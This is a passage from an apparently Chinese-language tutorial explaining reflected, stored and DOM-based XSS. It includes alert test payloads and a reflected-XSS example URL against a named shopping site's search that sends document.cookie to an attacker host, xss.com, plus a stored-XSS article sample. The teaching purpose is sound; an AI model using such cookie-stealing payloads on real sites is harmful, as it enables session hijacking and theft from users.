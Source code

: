 2- 在搜索框搜索内容，填入`<script>alert('xss')</script>`, 点击搜索。

3- 当前端页面没有对填入的数据进行过滤，直接显示在页面上， 这时就会alert那个字符串出来。

![picture](./image/2.webp)

以上3步只是“自娱自乐”，XSS最关键的是第四步。

4- 进而可以构造获取用户cookies的地址，通过QQ群或者垃圾邮件，来让其他人点击这个地址：
```
http://you.163.com/search?keyword=<script>document.location='http://xss.com/get?cookie='+document.cookie</script>
```

5- 如果受骗的用户刚好已经登录过严选网站，那么，用户的登录cookie信息就已经发到了攻击者的服务器（xss.com）了。当然，攻击者会做一些更过分的操作。

### Stored XSS（基于存储的XSS攻击）

Stored XSS和Reflected XSS的差别就在于，具有攻击性的脚本被保存到了服务器并且可以被普通用户完整的从服务的取得并执行，从而获得了在网络上传播的能力。

再举个栗子：

1- 发一篇文章，里面包含了恶意脚本
```
你好！当你看到这段文字时，你的信息已经不安全了！<script>alert('xss')</script>
```

2- 后端没有对文章进行过滤，直接保存文章内容到数据库。

3- 当其他读者看这篇文章的时候，包含的恶意脚本就会执行。

> tips：文章是保存整个HTML内容的，前端显示时候也不做过滤，就极可能出现这种情况。
> 此为题多从在于博客网站。

如果我们的操作不仅仅是弹出一个信息，而且删除一篇文章，发一篇反动的文章，或者成为我的粉丝并且将这篇带有恶意脚本的文章转发，这样是不是就具有了攻击性。

### DOM-based or local XSS（基于DOM或本地的XSS攻击）

DOM，全称Document Object Model，是一个平台和语言都中立的接口，可以使程序和脚本能够动态访问和更新文档的内容、结构以及样式。

DOM型XSS其实是一种特殊类型的反射型XSS，它是基于DOM文档对象模型的一种漏洞。可以通过DOM来动态修改页面内容，从客户端获取DOM中的数据并在本地执行。基于这个特性，就可以利用JS脚本来实现XSS漏洞的利用。

> 可能触发DOM型XSS的属性：
